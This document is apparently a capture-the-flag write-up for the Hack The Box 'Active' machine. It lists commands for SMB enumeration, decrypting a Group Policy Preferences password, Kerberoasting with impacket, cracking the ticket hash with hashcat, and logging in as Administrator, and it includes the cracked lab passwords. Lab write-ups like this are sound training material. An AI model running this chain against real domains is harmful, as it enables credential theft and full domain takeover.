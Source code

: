 ### DNS
```
nslookup
dnsrecon -d 10.129.151.62 -r 10.0.0.0/8
```

### Nmap
```
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb

nmap --script safe -p 445 active.htb
nmap --script smb-enum-services -d -p 445 active.htb
```

### SMB
```
smbmap -R Replication -H active.htb --depth 10
smbmap -R Replication -H active.htb -A Groups.xml -q --depth 10
```

### Decrypt Group Policy Preferences (GPP)
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

### Carefully running impact
`/usr/share/doc/python3-impacket/examples/GetADUsers.py -h` no no
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py` yes yes yes

```
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip active.htb
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip 10.129.151.62
```

### psexec.py or evil-winrm
won't work
```
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb\SVC_TGS:'GPPstillStandingStrong2k18'@active.htb

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
```
Because it's not a admin user

### smbmap again to get user.txt
```
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10 -A user.txt
smbclient \\\\active.htb\\Users -U=SVC_TGS%'GPPstillStandingStrong2k18'
```

### Kerberoasting
https://0xdf.gitlab.io/2018/12/08/htb-active.html#kerberoasting
```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
or
python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
or
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

### Crack 13100
```
hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
Ticketmaster1968
```

### smbclient as administrator
```
smbclient //active.htb/Users -U=Administrator%'Ticketmaster1968'
```